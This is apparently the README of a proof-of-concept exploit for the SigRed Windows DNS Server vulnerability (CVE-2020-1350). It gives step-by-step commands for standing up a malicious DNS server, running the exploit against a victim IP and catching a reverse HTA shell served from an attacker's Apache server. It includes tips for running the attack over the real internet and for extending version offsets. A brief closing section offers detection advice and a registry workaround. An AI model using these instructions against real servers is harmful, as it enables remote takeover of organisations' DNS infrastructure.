 # PoC Remote Code Execution Exploit for CVE-2020-1350, SigRed.

by: [chompie](https://twitter.com/chompie1337)

***For research purposes only. Use at your own risk.***

## Exploit Writeup

Details on the methods used are here:

https://www.graplsecurity.com/post/anatomy-of-an-exploit-rce-with-cve-2020-1350-sigred

## Environment Setup

### Lab Environment: Setting a Forwarder

For demo/testing purposes, just set up a conditional forwarder on the victim machine to forward "evil domain" requests to your attacker machine.

Tools -> DNS
![Alt text](images/forward.png?raw=true "Set up a forwarder")
![Alt text](images/ch0mpie.png?raw=true "Forwarding for ch0mpie.com")

### Registering a custom Nameserver

If you are NOT setting a forwarder, i.e. actually registering your attacker machine as a custom name server for your domain and running this over real internet...
***Note: I really don't recommend this and take no responsibility if you do something stupid.***

***This exploit is configured assuming your nameserver is registered as ns1.[yourevildomain]*** 

You need to do the following tweaks to make this work over real internet:

Comment out the line: `os.system('systemctl stop systemd-resolved')` in `evildns.py` 

Follow these instructions to fix your DNS configuration: https://www.linuxuprising.com/2020/07/ubuntu-how-to-free-up-port-53-used-by.html

This is so you can listen on port 53 and still have a DNS server configured.


## Configuring Attacker Machine

On the Linux attacker machine: (I used a base Ubuntu 20.04.1 VM)

`sudo python3 configure.py -ip IP_ATTACKER -p PORT_REVERSE_SHELL -hp PORT_APACHE_SERVER (default 80)`

This configures the Apache server that the victim will download the reverse HTA shell.


## Running the Exploit

`sudo python3 evildns.py` 

Needs sudo to listen on UDP and TCP ports 53

Then run:

`python3 exploit.py -ip WINDNS_VICTIM_IP -d EVIL_DOMAIN`

Set the listener for the reverse shell:

`python3 reverse_shell/server.py -p PORT_REVERSE_SHELL`

HTA shell is modified version of:
https://github.com/freshness79/HTA-Shell

Note that the shell doesn't notify you when there is an incoming connection so you will have to try to type a command. 

## Supported Versions

This has been tested working on Windows Server 2019, 2016, 2012R2, and 2012 (x64 versions). Offsets for some versions of `dns.exe` and `msvcrt.dll` are located in `offsets.py`. This list is incomplete. If the version you are testing fails to find offsets, you can add the mapping there. 

`dns.exe` offset mapping: (last 12bits of the offset for `dns!RR_Free`, `` dns!`string` ``) : (offset of `dns!RR_Free`, `dns!NsecDnsRecordConvert`, `dns!_imp_exit`)
`msvcrt.dll` offset mapping: (last 12 bits of offset for `msvcrt!exit`): (offset of `msvcrt!exit`, offset of `msvcrt!system`)

***Note: In the case of an offset collision, you will have to make a selection of which set of offsets to choose. The DNS service will restart after about 5 minutes up to two times after a crash. You must restart `evildns.py` after each try. The exploit is stable, so the chance of successful "blind" exploitation is high.***

## Detecting Exploitation and Workaround Fix

This PoC includes a Grapl rule to detect exploitation of SigRed. To implement a rule for your preferred SIEM, look for invalid child processes of dns.exe.

If patching is not possible, a workaround fix is available:
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters" /v "TcpReceivePacketSize" /t REG_DWORD /d 0xFF00 /f
net stop DNS && net start DNS
```
